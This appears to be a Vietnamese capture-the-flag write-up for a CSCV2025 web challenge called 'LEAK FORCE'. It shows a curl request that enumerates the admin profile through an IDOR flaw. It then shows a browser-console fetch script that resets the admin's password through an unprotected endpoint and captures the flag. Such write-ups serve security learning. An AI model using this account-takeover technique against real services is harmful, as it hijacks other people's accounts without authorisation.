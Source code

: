 ```yaml
---
title: LEAK FORCE

---
```


# LEAK FORCE
![image](https://hackmd.io/_uploads/BJQDAszAgg.png)

#### TEST

Challenge cung cấp một mã nguồn HTML http://web1.cscv.vn:9981/
![image](https://hackmd.io/_uploads/SJ8899f0gg.png)

- Trước tiên em sẽ thử các chức năng của web
- Register các thứ các thứ rồi login với username: abc2, password: abc
- Sau khi login xong thì sẽ được chuyển tới trang http://web1.cscv.vn:9981/profile.html
![image](https://hackmd.io/_uploads/HJwSEsG0le.png)

- Tại đây em thử các chức năng **Save Changes** và **Update Password** thì không có gì đặc biệt
- Với target là IDOR, thì thường admin user có thể là ID 1 (khá phổ biến)
- Em đã thử lệnh **curl** 'http://web1.cscv.vn:9981/api/profile?id=1' \ 
và kết quả trả về là

 ```
 -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,vi-VN;q=0.8,vi;q=0.7' \
  -H 'Connection: keep-alive' \
  -H 'If-None-Match: W/"e8-LeJvTb4wZSK6PbyPTrZ1iVWdsIM"' \
  -H 'Referer: http://web1.cscv.vn:9981/profile.html' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36' \
  --insecure
{"id":1,"fullName":"CTF Admin","username":"admin","email":"test1234@example.com","description":"New user1","avatar":"/uploads/user_undefined_1760753297965.txt","birthdate":null,"gender":null,"company":"abc"}
```

- Từ đây em đã chắc chắn `ID admin` là `1`


#### VỤT

- Khai thác IDOR: dùng chức năng đặt lại mật khẩu để lấy quyển truy cập vào tài khoản admin
- Em vào `Devtools` -> `Network` để kiểm tra có những gì
- ![image](https://hackmd.io/_uploads/HkB1dszAle.png)
- Em thử check response của `profile.js`
![image](https://hackmd.io/_uploads/Hy-7qofRgl.png)

- Từ đây em sẽ tận dụng **endpoint** từ **Network** để **reset password** của `ID=1` (**ID của admin user**) và lấy quyển truy cập tới tài khoản **Admin**

Sử dụng **console** để gửi **fetch** thay đổi mật khẩu tới `ID=1`

```
(async function() {
    const targetId = 1; 
    const newPassword = 'msec'; 
    const response = await fetch('/api/reset-password', { 
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ id: targetId, newPassword: newPassword }) 
    });
    const result = await response.json();
    if (response.ok) {
        console.log('Đặt lại mật khẩu thành công cho ID:', targetId, result);
    } else {
        console.error('Thất bại:', result);
    }
})();
```
Response:
![image](https://hackmd.io/_uploads/SyqJ2iMRel.png)

- Sau đó logout rồi login với `username=admin`, `password=msec` và nhận được flag
![image](https://hackmd.io/_uploads/SyxSnoM0xe.png)

**
FLAG: CSCV2025{7h3_Uni73d_N47i0ns_C0nv3n7i0n_4g4ins7_Cyb3rcrim3}**
